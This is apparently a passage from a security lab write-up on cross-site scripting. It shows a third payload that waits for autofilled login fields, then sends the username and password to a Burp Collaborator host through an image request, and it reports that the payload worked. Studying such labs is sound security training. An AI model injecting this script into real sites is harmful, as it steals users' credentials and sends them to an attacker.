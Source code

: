 This time i thought that if page gets loaded then it will take some time to get username and password loaded in input fields so i set the `setTimeout` method for delay of 1 second.

==> Payload 3:

```html
<script>
  document.body.onload = setTimeout(function () {
    let username = document.getElementById("username").value;
    let password = document.getElementById("password").value;
    var i = new Image();
    i.src =
      "https://y76joy2bdjb07uru2hcp3d76bxhn5c.burpcollaborator.net/?" +
      username +
      "Password:" +
      password;
  }, 1000);
</script>
```

And this payload worked!!

We got back our request in burp collaborator :

![](Attachments/Pastedimage20220324135747.png)
